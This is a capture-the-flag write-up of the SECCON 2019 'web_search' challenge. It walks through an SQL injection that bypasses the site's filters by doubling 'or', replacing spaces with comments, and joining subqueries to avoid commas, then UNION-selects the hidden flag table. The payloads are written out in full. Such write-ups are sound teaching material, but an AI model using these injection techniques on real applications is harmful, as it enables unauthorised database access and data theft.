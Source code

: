 # web_search [212pts]

## Description

```
Get a hidden message! Let's find a hidden message using the search system on the site.

http://web-search.chal.seccon.jp/
```

## Content

In this challenge, our payload will merged into SQL string, executed, and output will printed in main page.
![Main page](https://github.com/sumango3/ctf/blob/master/2019-SECCON-CTF/web_search.png)
By testing with some words, we may assume that SQL may look like following:
```
SELECT * from $table_name WHERE $column1 LIKE "RFC%" and $column2 LIKE '$q' LIMIT ($page*50, ($page+1)*50);
```
Also, `or`, `(space)`, `,` will be removed before executing SQL.

## Solution

### 'or', space filtering bypass

As the word `or` is removed before executing SQL, we can put `oorr`, so that it becomes `or` after filtering.
We can use SQL comment `/**/` instead of space, and `#` for ignoring all following words.
In result, the payload will be following:
```
'/**/or/**/true#
```
And this will give us a new row.
![Stage 1](https://github.com/sumango3/ctf/blob/master/2019-SECCON-CTF/web_search_1.png)

```
FLAG
    The flag is "SECCON{Yeah_Sqli_Success_" ... well, the rest of flag is in "flag" table. Try more!
```
So we should do something more.

### multi column table without comma

As we want to read something in table flag, we should UNION it.
The problem is, we should make number of columns of two tables same, but we cannot use comma.
In this case, we can use SQL JOIN to make multi column table.
```
SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b
```
will select all rows from `CROSS JOIN`ed table of following two tables:

| a |
|---|
| 1 |

and

| b |
|---|
| 2 |

In result, the following table comes out:

| a | b |
|---|---|
| 1 | 2 |

Assuming the `flag` table has only one column and RFC table has two columns, we can use following payload:
```
'/**/UNION/**/SELECT/**/*/**/FROM/**/(SELECT/**/*/**/FROM/**/flag)a/**/JOIN/**/(SELECT/**/2)b#
```
replacing `/**/` with space for readability, it becomes
```
' UNION SELECT * FROM (SELECT * FROM flag)a JOIN (SELECT 2)b#
```
But, this does not work, so our assume was wrong.
Next guess was 3 column RFC table and 1 column flag table.
```
'/**/UNION/**/SELECT/**/*/**/FROM/**/(SELECT/**/*/**/FROM/**/flag)a/**/JOIN/**/(SELECT/**/2)b/**/JOIN/**/(SELECT/**/3)c#
```
and this will give us
![Stage 2](https://github.com/sumango3/ctf/blob/master/2019-SECCON-CTF/web_search_2.png)
```
You_Win_Yeah}
    2
```

## Flag

	SECCON{Yeah_Sqli_Success_You_Win_Yeah}
